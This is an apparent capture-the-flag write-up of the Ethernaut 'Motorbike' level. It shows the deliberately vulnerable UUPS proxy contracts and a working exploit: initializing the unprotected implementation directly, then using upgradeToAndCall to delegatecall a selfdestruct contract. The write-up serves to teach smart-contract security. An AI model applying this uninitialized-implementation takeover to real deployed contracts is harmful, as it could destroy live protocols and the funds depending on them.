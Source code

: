 # Ethernaut 25: Motorbike

Learn about the UUPS pattern. Initalization of a implementation combined with a delegatecall on the implementation is a security breach.

## The Task Intro

Ethernaut's motorbike has a brand new upgradeable engine design.

Would you be able to selfdestruct its engine and make the motorbike unusable ?

Things that might help:

EIP-1967
UUPS upgradeable pattern
Initializable contract

## The Task Code

```apache
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    struct AddressSlot {
        address value;
    }

    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`.
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }

    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");

        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

## The Solution

In this ethernaut challenge I see the first time the UUPS Pattern for upgradable contracts, which means the code to upgrade the implementation resides on the implementation. The storage is on the proxy, which holds in the UUPS pattern just the storage slot. The upgrade mechanism is in the implementation. It will be called through the proxy pattern.

The ethernaut Motorbike challange gives uns two contracts, Motorbike (Proxy) and Engine (Implementation). My task is to selfdestruct the engine.

Looking at the proxy it seems like I can do nothing through it, on the implementation there is no selfdestruct upcode in a function. Therefore I want to change the implementation, but this seems to be impossible through the proxy, because I am not the upgrader.

That lead my focus to the implementation contract, can I initalize the contract on the implementation level and be the upgrader myself? Yes - thats possible, no protection! This protection only resides on the Proxy level, there is the storage. Strange that there is no protection for this. Ok.

After I am upgrader of the contract, I want to upgrade the contract to a contract I created that only contains a function kill with a selfdestruct statement. Here my solution:

````apache
// get the implementation address
await web3.eth.getStorageAt("MoterbikeAddress","0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
```
````

With the implementation address in my hand I call initalize:

```àpache
// initalize on the implementation
let initData = web3.eth.abi.encodeFunctionSignature("initialize()")
await web3.eth.sendTransaction({from: player, to: "implementationAddress", data: initData })
```

Now I am the upgrader, with this I want to call the upgradeToAndCall function, that allows me to change the implementation and make a delegate call. For this I need first a contract with a selfdestruct Upcode in a function, therefore I deploy a contract:

```àpache
contract AttackMotorbike {
    function kill() public {
        selfdestruct(payable(msg.sender));
    }
}
```

This is the new implementation I want to upgrade to and call the kill function. To do this I create one function selectors - kill. With the web3 library the only way to call a function with parameters is sentTransfer, for this I need to encode the full function with web3.eth.encodeFunctionCall. This function takes the function signature as json and followed with the parameters in an array. Unfortunately no method is there for adding the function selector as string. After encoding I use sendTransaction to the implementation contract.

```apache
// encode the kill function
let kill = web3.eth.abi.encodeEventSignature("kill()")

// create function signature
let upgradeSig = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: 'newImplementation'
        },
        {
            type: 'bytes',
            name: 'data'
        }
    ]
}

// prepare the calldata with web3.eth.encodeFunctionCall
let data = web3.eth.abi.encodeFunctionCall(upgradeSig, ["AttackMotorbikeAddress", kill])

await web3.eth.sendTransaction({from: player, to: "implementationAddress", data: data })

```

Done 🎉️. The hardest part of this exercise was to understand the vulnerability of uninitalized implementation contracts even after an initialization from the proxy: Remember, the storage is on the proxy, not on the implementation itself.

The proxy needs to initalize the implementation in the constructor. But this is not enough, because storage is hold on the proxy level. In this exercise I was able to initalize the implementation contract with its own storage, allowing me to change the implementation in its own storage and finally use selfdestruct :-), making the proxy contract useless.
